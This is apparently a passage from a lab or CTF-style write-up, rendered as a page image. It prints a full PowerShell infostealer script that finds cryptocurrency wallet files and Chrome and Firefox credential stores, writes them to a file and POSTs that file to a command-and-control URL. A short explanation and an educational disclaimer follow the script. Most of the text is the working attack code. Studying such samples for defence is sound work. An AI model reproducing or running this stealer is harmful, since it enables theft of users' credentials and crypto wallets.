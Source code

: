```powershell
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

The script is designed to collect highly sensitive information from the victim's system, such as cryptocurrency wallets and saved browser credentials, and send it to an attacker's remote server.

```ad-bug
Disclaimer: All content in this room, including CPP code, PowerShell scripts, and commands, is provided solely for educational purposes. Please do not execute these on a Windows host.
```
